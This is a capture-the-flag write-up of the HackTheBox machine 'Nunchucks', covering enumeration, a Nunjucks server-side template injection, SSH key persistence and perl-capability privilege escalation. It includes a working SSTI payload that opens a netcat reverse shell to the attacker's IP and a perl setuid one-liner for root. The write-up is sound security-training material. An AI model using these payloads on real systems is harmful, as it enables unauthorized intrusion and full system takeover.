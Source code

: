 # Nunchucks

This is my write-up for the box **Nunchucks** on HackTheBox: [https://app.hackthebox.com/machines/Nunchucks](https://app.hackthebox.com/machines/Nunchucks).

nmap scan: `nmap -T4 -A -Pn 10.10.11.122 -oN nunchucks.nmap`

```
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-19 15:24 EST
Nmap scan report for 10.10.11.122
Host is up (0.054s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6c:14:6d:bb:74:59:c3:78:2e:48:f5:11:d8:5b:47:21 (RSA)
|   256 a2:f4:2c:42:74:65:a3:7c:26:dd:49:72:23:82:72:71 (ECDSA)
|_  256 e1:8d:44:e7:21:6d:7c:13:2f:ea:3b:83:58:aa:02:b3 (ED25519)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://nunchucks.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
|_http-title: Nunchucks - Landing Page
| tls-nextprotoneg: 
|_  http/1.1
| ssl-cert: Subject: commonName=nunchucks.htb/organizationName=Nunchucks-Certificates/stateOrProvinceName=Dorset/countryName=UK
| Subject Alternative Name: DNS:localhost, DNS:nunchucks.htb
| Not valid before: 2021-08-30T15:42:24
|_Not valid after:  2031-08-28T15:42:24
| tls-alpn: 
|_  http/1.1
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.08 seconds
```

I had a hard time connecting to the website. I then updated my **/etc/hosts** file and it worked!

![](<../../.gitbook/assets/image (328) (1) (1).png>)

I then ran a `git clone` for the [Seclists](https://github.com/danielmiessler/SecLists) GitHub repository. This repo has a lot of different files which come in handy from directory/password brute-forcing. I did get stuck at this point, so I then looked at the HackTheBox walk-through from the site. I learned about the **gobuster** option of **vhosts** which checks for subdomains on the system:

`gobuster vhost -u https://nunchucks.htb/ -w directory-list-2.3-medium.txt -k`

This led me to discover a **store.nunchucks.htb**. In order to visit the site, I had to add the site to my **/etc/hosts** file. I manually edited the file using **nano**, but the walk-through had a much easier solution for this:

`echo "10.10.11.122 nunchucks.htb" | sudo tee -a /etc/hosts`

We end up on this page:

![](<../../.gitbook/assets/image (342) (1) (1) (1) (1).png>)

I then ran **feroxbuster** on the website to see if there were directories that I can access:

![](<../../.gitbook/assets/image (344) (1) (1) (1) (1).png>)

I didn't get that much of help from this. The walk-through mentioned that there is a template injection vulnerability on this site. I tested out the example they gave:

![](<../../.gitbook/assets/image (338) (1) (1) (1).png>)

The walk-through mentioned BurpSuite's Repeater function. I was then testing out what I can inject using that in order to find out what system is on the backend:

![](<../../.gitbook/assets/image (329) (1) (1) (1) (1).png>)

Using the following image from [https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#detect](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#detect), I was able to assume that the backend system was either **Jinja2** or **Twig**:

![](<../../.gitbook/assets/image (327) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (341) (1) (1) (1) (1).png>)

After trying to get information from the system, I then went back to the write-up and found out that the server is using NodeJS Express. This is shown by the Response in Burp Suite:

![](<../../.gitbook/assets/image (339) (1) (1) (1).png>)

The walk-through mentions how they found the website [http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine](http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine) by searching on Google. I searched on Google as well, but this website was not there in the results of a search. After this, the walk-through mentions running the following template injection (I modified it for my usage):

`{"email":"{{range.constructor("return global.process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.10 1234 >/tmp/f')")()}}@test.com"}`

I then got a reverse netcat connection:

![](<../../.gitbook/assets/image (332) (1) (1) (1).png>)

I then was able to read the user.txt file in david's home directory:

![](<../../.gitbook/assets/image (333) (1) (1).png>)

I then ran `script /dev/null bash` on recommendation from the walk-through. This gave me the shell (with the username and hostname). I then ran `getcap -r /`, again, on recommnedation of the write-up:

![](<../../.gitbook/assets/image (334) (1) (1) (1).png>)

The walk-through recommended using GTFObin's **perl** page.  It seemed that I was root, but was unable to read the root.txt file:

![](<../../.gitbook/assets/image (343) (1) (1) (1).png>)

I was unable to get **nano** (text editor) to work as I wanted it to. I then added my own key to the **authorized\_keys** file that way I was able to get back into the machine. In order to do this I did the following (recommended by the write-up):

```
Local Machine:
run ssh-keygen (I entered defaults for everything)

Then copy the output of "id_rsa.pub" which is in your .ssh folder.

Remote Machine:
echo <id_rsa.pub> > ~/.ssh/authorized_keys

You can now SSH as david onto the machine
```

I was lost at this point, since the GTFObins commands were not getting me solid results. The write-up mentioned breaking down the `perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'` command to a script. This was the solution from the write-up:

![](<../../.gitbook/assets/image (330) (1) (1).png>)

Once you run `chmod +x` on the file, you can then get root access.

![](<../../.gitbook/assets/image (340) (1) (1) (1) (1).png>)

You then also have access to root.txt

![](<../../.gitbook/assets/image (331) (1) (1).png>)

